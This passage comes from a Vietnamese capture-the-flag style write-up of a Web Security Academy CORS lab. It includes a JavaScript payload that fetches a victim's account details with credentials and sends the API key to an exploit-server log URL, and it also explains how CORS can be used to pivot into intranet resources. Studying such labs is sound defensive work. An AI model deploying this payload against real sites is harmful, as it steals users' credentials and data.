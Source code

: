 ![image](https://hackmd.io/_uploads/rk4OtXX_lx.png)

Từ đây mình có thể viết 1 script khác như này: 

```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener; 
    req.open('get', 'https://0ac3000003d180b8bb208da9006c00ea.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send(); 

    function reqListener() {
        location = 'https://exploit-0a7e008a037d8072bb348c8c01fa0029.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>
```

Thì cũng làm tương tự mình cũng thu được apikey. 

![image](https://hackmd.io/_uploads/HJm45mQ_eg.png)

![image](https://hackmd.io/_uploads/HkD8q77ugx.png)

## Mạng nội bộ và CORS ko kèm thông tin xác thực 

Hầu hết các tấn công CORS sẽ trả về: 
```
Access-Control-Allow-Credentials: true
``` 

Không bật Allow-Credentials ⇒ CORS chỉ cho attacker thấy dữ liệu công khai ⇒ không giúp gì nhiều ngoài intranet.

Website nội bộ (intranet) dùng IP riêng chỉ truy cập từ trong mạng, nên attacker ngoài internet không vào được.
Do chủ quan, các site này thường bảo mật kém, dễ bị khai thác nếu attacker lợi dụng trình duyệt của người trong mạng (ví dụ qua CORS) để truy cập thay cho mình.

Ví dụ cross-request với private network: 

```HTTP
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
``` 

và server trả về: 
```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
``` 

Server nội bộ chấp nhận yêu cầu từ mọi origin mà không cần cookie.
Nếu người trong mạng nội bộ truy cập internet, attacker có thể dùng CORS từ website của mình để biến trình duyệt của nạn nhân thành proxy, truy cập tài nguyên intranet thay cho mình.

